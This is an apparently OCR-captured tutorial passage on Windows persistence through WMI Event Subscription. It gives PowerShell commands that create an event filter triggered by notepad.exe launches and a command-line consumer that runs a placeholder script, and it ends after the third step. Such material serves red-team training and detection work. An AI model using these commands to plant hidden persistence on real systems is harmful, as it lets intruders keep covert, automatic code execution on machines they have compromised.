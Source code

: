 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Windows Management Instrumentation (**WMI**) is a powerful feature in Windows for system management and monitoring.  
**WMI Event Subscription** can be used for persistence by executing scripts or programs automatically when certain system events occur.  


### **Step-by-Step: Establishing Persistence Using WMI Event Subscription**

1. **Identify the Trigger Event**  
   Decide what event should trigger the payload.  
   Example: `__InstanceCreationEvent` (occurs when a new instance of a WMI class is created).


2. **Create an Event Filter**  
   Define the conditions under which the event will trigger using WQL (WMI Query Language):  

    ```powershell
    New-CimInstance -Namespace root\subscription -ClassName __EventFilter -Property @{
        Name = 'MyEventFilter';
        EventNamespace = 'root\cimv2';
        QueryLanguage = 'WQL';
        Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 
                WHERE TargetInstance ISA 'Win32_Process' 
                AND TargetInstance.Name = 'notepad.exe'"
    }
    ```
    
3. **Create an Event Consumer**
    Specify the action to take when the filter condition is met (e.g., execute a script):

    ```powershell
    New-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Property @{
        Name = 'MyEventConsumer';
        CommandLineTemplate = "C:\\Path\\To\\Your\\Script.bat"
    }
    ```